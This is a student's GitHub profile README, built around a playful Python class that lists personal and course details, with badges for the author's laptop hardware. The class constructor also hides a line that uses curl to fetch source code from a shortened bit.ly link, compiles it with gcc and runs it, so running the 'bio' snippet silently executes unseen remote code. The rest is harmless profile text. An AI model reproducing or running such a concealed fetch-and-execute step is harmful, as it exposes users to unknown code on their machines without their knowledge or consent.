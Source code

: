 <h1 align="center">Yo 👋, I'm Dela Rosa, John Errol 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Monospace&size=16&pause=1000&color=36BCF7F7&center=true&vCenter=true&random=false&width=485&lines=Jep+is+trying+his+best.;This+is+a+placeholder.;You+wanna+know+how+I+got+these+scars%3F" alt="Jep is trying his best." />
</p>

```python
class JepxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/j3px21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🙋‍♂️ You can call me'            : 'JEP (*insert_My_names_jeff_meme)',
      '- 🤷🏻‍♂️ What is this, nani'         : 'A GitHub repository dedicated to the CPE313 course',
      '- 🏡 I’m currently living in'    : 'Binangonan, Rizal',
      '- 🏫 I’m currently studying in'  : 'Technological Institute of the Philippines',
      '- 📓 Course code - title'        : {'CPE 313' : 'Advanced Machine Learning and Deep Learning'},
      '- 🎏 Section'                    : 'CPE32S8',
      '- 🌱 I’m currently pursuing'     : {'BSCpE' : 'Bachelor of Science in Computer Engineering'},
      '- 📊 My elective'                : 'Data Science',
      '- ❔ I dont know'                : '¯\_(ツ)_/¯',
      '- 👨‍💻 My amazing website project' : 'https://blogs.mtdv.me/blog/posts/jepowo',

      '- 💧 Motto in life'              : ('Empty your mind, be formless. Shapeless, like water. If you put water'
                                            'into a cup, it becomes the cup. You put water into a bottle and it'
                                            'becomes the bottle. You put it in a teapot, it becomes the teapot.'
                                            'Now, water can flow or it can crash. Be water, my friend.'),

      '- ⚡ Fun fact'                  : ('80% of Tibetan Buddhists chose to have a sky burial, in which their'
                                         'bodies are placed on mountain tops and consumed by birds of prey.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(JepxZIMA().__dict__)
```
<br>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://github.com/jepowo/CPE_313/blob/main/src/graphics.svg" alt="NVIDIA 3050"></a>
  <a href="#"><img src="https://raw.githubusercontent.com/jepowo/CPE_313/blob/main/src/processor.svg" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://raw.githubusercontent.com/jepowo/CPE_313/blob/main/src/laptop.svg" alt="Asus"></a>
</p>

